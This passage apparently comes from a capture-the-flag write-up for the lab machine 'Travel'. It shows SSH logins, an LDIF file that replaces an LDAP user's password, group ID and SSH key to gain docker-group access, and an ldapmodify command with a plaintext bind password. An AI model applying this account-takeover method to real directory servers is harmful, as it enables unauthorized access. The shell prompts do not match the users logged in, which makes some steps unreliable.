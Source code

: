 Now, we can just ssh in!

```
ssh -i ~/.ssh/id_rsa frank@10.10.10.189

trvl-admin@travel:~$ id
uid=1000(trvl-admin) gid=1000(trvl-admin) groups=1000(trvl-admin),5000(domainusers) 
```

Strangely, it seems like some of the groups that trvl-admin was in have been stripped. To get the correct shell, we'll just create a file in /home/trvl-admin/.ssh names authorized_keys and put our id_rsa.pub key in it.

Now, if we ssh in as trvl-admin instead of frank, we'll get a shell with the correct groups:

```
trvl-admin@travel:~$ id
uid=1000(trvl-admin) gid=1000(trvl-admin) groups=1000(trvl-admin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

From here, we aren't able to do much, since lxd gives us an error (since it isn't contained). Because we have docker on the box (group 117) we can use a docker privesc method:

new.ldif:

```
dn: uid=eugene,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: userPassword
userPassword: {SSHA}0JZzQwnVI4FkqtTkzQYLUcvd7SpF1QbDcTRmkw==
-
replace: uidNumber
uidNumber: 1000
-
replace: gidNumber
gidNumber: 117
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: <your key here>
```

Now, we just need to run it, then ssh in:

```
ldapmodify -a -H ldap://ldap.travel.htb -x -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f new.ldif 

ssh -i ~/.ssh/id_rsa eugene@10.10.10.189

trvl-admin@travel:~$ id                                                                                              
uid=1000(trvl-admin) gid=117(docker) groups=117(docker),5000(domainusers) 
```
